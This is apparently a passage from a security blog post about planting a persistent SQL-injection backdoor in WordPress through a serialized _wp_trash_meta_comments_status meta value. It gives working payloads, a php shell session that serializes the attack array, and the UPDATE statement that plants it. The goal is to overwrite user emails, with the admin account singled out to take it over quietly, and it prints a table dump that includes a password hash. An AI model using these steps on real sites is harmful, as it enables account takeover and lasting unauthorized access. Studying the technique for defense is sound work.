 As you can tell, the `_wp_trash_meta_comments_status` field is a serialized PHP
array. Now let's assume you've compromised the website in some way and managed 
to get database access. So assuming you're able to modify that meta value in 
some way, we can cause an injection.

Let's say we change the meta_value to deserialize to an array like this:
	
	array("'); SELECT ('hi" => 0);

This is a simple [SQL Injection], and when ran through the code will result in 
a query going to the database like this: 

	UPDATE wp_comments SET comment_approved = 0 WHERE comment_ID IN (''); SELECT ('hi');

Which if you run in your MySQL shell will result in a simple hi being returned. 
So could this be used to backdoor or do something malicious? Simple:

	array("'); UPDATE wp_users set user_email = ('myemail@example.com" => "1")

Will result in the query to the database:

	UPDATE wp_comments SET comment_approved = 1 WHERE comment_ID IN (''); UPDATE wp_users set user_email = ('myemail@example.com')

And now every single user account's email is set to yours! Of course, you could 
make this a bit less noticeable by targetting a single account. The obvious being 
ID=1, the admin account that will likely exist on every wordpress site out there. 
Plan drawn, let's see it in practice! First, serializing our attack array:

	$ php -a 
	php > $comments = array("'); UPDATE wp_users set user_email = ('1qdzqk+bzlrxxfbjpnvk@sharklasers.com" => 1);
	php > print serialize($comments);
	a:1:{s:75:"'); UPDATE wp_users set user_email = ('1qdzqk+bzlrxxfbjpnvk@sharklasers.com";i:1;}

And then using the database access you have, we can insert a backdoor:

	 UPDATE wp_postmeta SET meta_value = "a:1:{s:75:\"'); UPDATE wp_users set user_email = ('1qdzqk+bzlrxxfbjpnvk@sharklasers.com\";i:1;}" WHERE meta_key = '_wp_trash_meta_comments_status' AND post_id = 1;

To check if this works, let's examine the database before:

	mysql> update wp_users set user_email = '';
	Query OK, 0 rows affected (0.05 sec)
	Rows matched: 1  Changed: 0  Warnings: 0

	mysql> select * from wp_users;
	+----+------------+------------------------------------+---------------+------------+----------+---------------------+---------------------+-------------+--------------+
	| ID | user_login | user_pass                          | user_nicename | user_email | user_url | user_registered     | user_activation_key | user_status | display_name |
	+----+------------+------------------------------------+---------------+------------+----------+---------------------+---------------------+-------------+--------------+
	|  1 | admin      | $P$By9vOxgjlDv/ZVc3P6RCkm2ODy.dnG. | admin         |            |          | 2015-08-23 20:20:42 |                     |           0 | admin        |
	+----+------------+------------------------------------+---------------+------------+----------+---------------------+---------------------+-------------+--------------+
	1 row in set (0.00 sec)
